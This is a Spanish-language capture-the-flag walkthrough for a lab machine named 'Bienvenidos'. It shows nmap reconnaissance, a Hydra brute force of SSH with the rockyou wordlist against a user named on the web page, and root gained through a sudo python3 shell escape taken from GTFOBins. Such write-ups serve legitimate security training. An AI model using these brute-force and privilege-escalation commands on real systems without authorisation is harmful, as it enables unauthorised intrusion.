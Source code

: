 ```yaml
---
description: '✍️ Autor: beafn28🔍 Dificultad: Fácil 📅 Fecha de creación: 29/09/2024'
---
```


# Bienvenidos

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../.gitbook/assets/imagen (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../.gitbook/assets/imagen (13) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../.gitbook/assets/imagen (14) (1) (1).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web nos da la bienvenida Beatriz a la plataforma [Root Acces](https://rootacc.es/index.php?sid=585994e8f11ab449e8ccbd8e65e13a59). Descubrimos que **Beatriz** puede ser un usuario y tiene sentido ya que es la que crea los CTF.

<figure><img src="../.gitbook/assets/imagen (55).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l beatriz -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **172.17.0.2**.

<figure><img src="../.gitbook/assets/imagen (18).png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **beatriz**. Sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh beatriz@172.17.0.2
```

<figure><img src="../.gitbook/assets/imagen (16).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../.gitbook/assets/imagen (19).png" alt=""><figcaption></figcaption></figure>

Se ha identificado que podemos ejecutar `/usr/bin/python3` con permisos de `sudo`. Para escalar privilegios, utilizaremos [GTFObins](https://gtfobins.github.io/gtfobins/python/), que proporciona una lista de comandos que se pueden ejecutar utilizando Python.

Esto nos permitirá aprovechar el entorno de Python para ejecutar código que nos ayude a obtener acceso a niveles más altos de privilegio en el sistema.

```bash
sudo python3 -c 'import os; os.system("/bin/sh")'
```

<figure><img src="../.gitbook/assets/imagen (20).png" alt=""><figcaption></figcaption></figure>

Ya somos **root** por lo que ahora encontraremos la bandera en su directorio.

<figure><img src="../.gitbook/assets/imagen (56).png" alt=""><figcaption></figcaption></figure>

Esta bandera está codificada en base64 la decodificamos con este comando:

```bash
echo "aHR0cHM6Ly9yb290YWNjLmVzCg==" | base64 --decode
```

<figure><img src="../.gitbook/assets/imagen (57).png" alt=""><figcaption></figcaption></figure>
